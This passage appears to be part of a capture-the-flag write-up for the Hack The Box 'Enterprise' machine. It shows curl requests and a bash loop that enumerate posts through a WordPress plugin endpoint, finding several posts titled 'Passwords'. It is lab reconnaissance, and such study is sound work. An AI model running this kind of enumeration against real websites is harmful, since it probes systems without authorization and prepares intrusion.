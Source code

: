 ## lcars_dbpost.php
Let's try to access `lcars_dbpost.php`:
```bash
$ curl http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=1
Hello world!
$ curl http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=4
Espresso
```

Let's make a loop:
```bash
$ for i in {1..100}; do echo -n "Post $i: "; curl -s http://enterprise.htb/wp-content/plugins/lcars/lcars_dbpost.php?query=$i | tr -s '\n'; done  | tee post-name-list
Post 1: Hello world! 
Post 3: Auto Draft 
Post 4: Espresso 
Post 5: Sandwich 
Post 6: Coffee 
Post 7: Home 
Post 8: About 
Post 9: Contact 
Post 10: Blog 
Post 11: A homepage section 
Post 13: enterprise_header 
Post 14: Espresso 
Post 15: Sandwich 
Post 16: Coffee 
Post 23: enterprise_header 
Post 24: cropped-enterprise_header-1.jpg 
Post 30: Home 
Post 34: Yelp 
Post 35: Facebook 
Post 36: Twitter 
Post 37: Instagram 
Post 38: Email  
Post 40: Hello world! 
Post 51: Stardate 49827.5 
Post 52: Stardate 49827.5 
Post 53: Stardate 50893.5 
Post 54: Stardate 50893.5 
Post 55: Stardate 52179.4 
Post 56: Stardate 52179.4 
Post 57: Stardate 55132.2 
Post 58: Stardate 55132.2 
Post 66: Passwords 
Post 67: Passwords 
Post 68: Passwords 
Post 69: YAYAYAYAY. 
Post 70: YAYAYAYAY. 
Post 71: test 
Post 78: YAYAYAYAY. 
```
I do see items 66-68 named Passwords.
Visiting home-page shows a posts section redirecting to `http://enterprise.htb/?p=69`, which YAYAYAYAY. I tried to change that value to 66,67,68 nothing worked.
